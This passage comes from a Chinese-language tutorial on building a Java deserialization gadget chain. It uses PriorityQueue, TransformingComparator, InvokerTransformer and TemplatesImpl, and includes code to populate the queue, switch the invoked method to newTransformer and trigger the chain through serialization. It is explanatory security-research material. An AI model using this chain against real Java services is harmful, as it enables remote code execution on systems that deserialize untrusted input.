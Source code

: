 正如之前分析的一样，将transfomer作为TransformingComparator的构造方法将TransformingComparator作为invokerTransformer的构造方法。

### <a class="reference-link" name="0x3%20%E6%B7%BB%E5%8A%A0%E5%85%83%E7%B4%A0%E5%B9%B6%E4%BF%AE%E6%94%B9%E5%B1%9E%E6%80%A7"></a>0x3 添加元素并修改属性

现在还没实现命令执行链的装链操作，有两种方法都可以实现

**<a class="reference-link" name="1.%20%E6%96%B9%E6%B3%95%E4%B8%80%20%E5%8D%A0%E4%BD%8D%E5%85%83%E7%B4%A0"></a>1. 方法一 占位元素**

关于为什么要add这个问题最后统一解答

```
queue.add(1);
queue.add(1);
setFieldValue(transformer, "iMethodName", "newTransformer");
final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
queueArray[0] = templates;
queueArray[1] = 1;
```

其中有一步修改transformer对象的iMethodName值，是因为要触发TransformingComparator的newTransformer方法，调用命令执行链。最后将队列的0号元素改为命令执行链入口类。

**<a class="reference-link" name="2.%20%E6%96%B9%E6%B3%95%E4%BA%8C%20%E7%9B%B4%E6%8E%A5%E6%B7%BB%E5%8A%A0"></a>2. 方法二 直接添加**

直接templates到队列中也是可行的，最后也要修改iMethodName的值。

```
queue.add(templates);
queue.add(new String("n"));
// switch method called by comparator
setFieldValue(transformer, "iMethodName", "newTransformer");
```

### <a class="reference-link" name="0x4%20%E6%B5%8B%E8%AF%95"></a>0x4 测试

分别调用序列化和反序列化函数

```
byte[] serializeData=serialize(queue);
unserialize(serializeData);
```

函数的实现如下

```
public static byte[] serialize(final Object obj) throws Exception `{`
        ByteArrayOutputStream btout = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(btout);
        objOut.writeObject(obj);
        return btout.toByteArray();
    `}`
    public static Object unserialize(final byte[] serialized) throws Exception `{`
        ByteArrayInputStream btin = new ByteArrayInputStream(serialized);
        ObjectInputStream objIn = new ObjectInputStream(btin);
        return objIn.readObject();
    `}`
```
